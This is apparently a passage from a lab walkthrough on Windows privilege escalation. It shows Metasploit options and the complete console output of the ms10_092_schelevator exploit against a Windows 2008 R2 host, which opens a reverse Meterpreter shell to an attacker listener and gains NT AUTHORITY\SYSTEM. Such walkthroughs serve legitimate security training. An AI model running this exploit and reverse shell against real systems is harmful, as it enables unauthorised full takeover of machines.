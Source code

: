 ```shell-session
   ----      ---------------  --------  -----------
   CMD                        no        Command to execute instead of a payload
   SESSION   1                yes       The session to run this module on.
   TASKNAME                   no        A name for the created task (default random)
Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT     4443             yes       The listen port
Exploit target:
   Id  Name
   --  ----
   0   Windows Vista, 7, and 2008
```

### Receiving Elevated Reverse Shell
```shell-session
msf6 exploit(windows/local/ms10_092_schelevator) > exploit

[*] Started reverse TCP handler on 10.10.14.3:4443
[*] Preparing payload at C:\Windows\TEMP\uQEcovJYYHhC.exe
[*] Creating task: isqR4gw3RlxnplB
[*] SUCCESS: The scheduled task "isqR4gw3RlxnplB" has successfully been created.
[*] SCHELEVATOR
[*] Reading the task file contents from C:\Windows\system32\tasks\isqR4gw3RlxnplB...
[*] Original CRC32: 0x89b06d1a
[*] Final CRC32: 0x89b06d1a
[*] Writing our modified content back...
[*] Validating task: isqR4gw3RlxnplB
[*]
[*] Folder: \
[*] TaskName                                 Next Run Time          Status
[*] ======================================== ====================== ===============
[*] isqR4gw3RlxnplB                          6/1/2021 1:04:00 PM    Ready
[*] SCHELEVATOR
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "isqR4gw3RlxnplB" have been changed.
[*] SCHELEVATOR
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "isqR4gw3RlxnplB" have been changed.
[*] SCHELEVATOR
[*] Executing the task...
[*] Sending stage (175174 bytes) to 10.129.43.15
[*] SUCCESS: Attempted to run the scheduled task "isqR4gw3RlxnplB".
[*] SCHELEVATOR
[*] Deleting the task...
[*] Meterpreter session 2 opened (10.10.14.3:4443 -> 10.129.43.15:49634) at 2021-05-12 16:04:34 -0400
[*] SUCCESS: The scheduled task "isqR4gw3RlxnplB" was successfully deleted.
[*] SCHELEVATOR


meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM


meterpreter > sysinfo

Computer        : WINLPE-2K8
OS              : Windows 2008 R2 (6.1 Build 7600).
Architecture    : x64
```